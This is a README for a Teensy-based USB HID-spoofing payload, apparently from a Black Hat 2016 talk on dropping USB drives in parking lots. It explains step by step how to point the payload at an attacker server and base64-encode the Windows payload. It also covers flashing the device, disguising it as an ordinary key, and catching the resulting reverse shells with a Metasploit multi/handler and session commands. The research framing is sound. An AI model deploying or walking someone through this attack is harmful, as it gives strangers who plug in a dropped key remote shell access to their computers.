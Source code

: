 # HID spoofing multi-OS payload for Teensy

This code allows creation of a cross-platform HID spoofing payload that
will spawn a reverse TCP-shell on Windows and OS X.

It was developed as part of the presentation I made at Blackhat USA 2016:
[Does Dropping USB drives in parking lots and other places really work?](https://www.elie.net/publication/does-dropping-usb-drives-really-work) to show how to create realistic HID spoofing keys that can be used in USB key drop attack.

For more information on how to make realistic HID spoofing key see my [blog post on the subject](https://www.elie.net/blog/security/what-are-malicious-usb-keys-and-how-to-create-a-realistic-one)

## Environment setup

To get the payload working you need:
1. A Teensy. You can get one directly from [Amazon](http://amzn.to/2anjrMs) or [PRJC](https://www.pjrc.com/store/teensy32.html)
2. The Arduino environment with Teensyduino to compile your payload and the Teensy loader to upload the payload to your Teensy. See [instructions here](https://www.pjrc.com/teensy/index.html)

If you want to conceal the Teensy into a realistic key follow the instruction locate in the last third of my [blog post on the subject](https://www.elie.net/blog/security/what-are-malicious-usb-keys-and-how-to-create-a-realistic-one)

## Configuring the payload
The payload need to be configured to connect to the server of  your choice. There is to way to do it:
### Use the Python configuration script
That is the easy way and should work on most OSX and Linux or even Windows computers
as long as Python is installed. To run it simply invoke:
```
cd payload
python configure_payload.py IP PORT
```
where *IP* is the IP of the server and *PORT* is the TCP port you want the connection back. Your configured payload is available in the file **configured_payload.c**.

### Manual configuration
If you don't have python, something went wrong or want to do it manually. Here is
what you need to do:
  1. Edit the OSX payload from  **payload/payload_osx.sh** to
  replace the constant IP and PORT with the one from your server
  2. Replace in **payload/payload.c** the *OSX_PAYLOAD_STR* string with your customized payload
  3. Edit the Windows payload from  **payload/payload_win.ps** and replace the constant IP and PORT with the one from your server
  4. Compress and encode it with: `cat payload | gzip -c | base64`
  5. Replace the *WIN_PAYLOAD_STR* string in the **payload/payload.c** with the output of the previous command. The *WIN_PAYLOAD_STR* string is in the middle of the Windows payload.

## Compiling and uploading payload to the Teensy
Once the payload is configured, to get your Teensy up and running all you need to do is:
1. Create a new project in Arduino environment
2. In Tool make sure that the *Board* option is set to *"Teensy 3.2 / 3.1"*
3. The Tool again set the *USB Type* option is set to : *"Serial + Keyboard + Mouse + Joystick"*
4. copy/past the code in the Arduino environment
5. Check that it is working by pressing the verify button
6. Press the compile and upload button to program your Teensy

Congratulations, your Teensy is ready to go.

## Configuring the server

The server aspect requires to have a server that have a static IP that is reachable form Internet. We are going to use the generic Metasploit multi handler to control the reverse shell(s). Here is briefly how to do it, for more information please read the [Metaploit documentation](https://help.rapid7.com/metasploit/index.html)

1. Install and launch Metasploit
2. Load the multi-handler `use exploit/multi/handler`
3. Set the Payload to reverse-shell `set payload osx/x64/shell_reverse_tcp` Despite the name, it will works for all OS
4. Set the IP of the server `set LHOST YOUR_IP`
5. Set the PORT of the server `set LPORT YOUR_PORT`
6. Tell Metasploit to not close the plugin when a session disconnect: `set ExitOnSession false`
7. Launch the paylaod: `exploit -j -z`

## Controlling a reverse shell

When a key is plugged you will see a log message indicating a new session is connected. You get the list of sessions by issuing the command:
```
sessions -l
```

To control a specific session:
```
sessions -i session_id
```
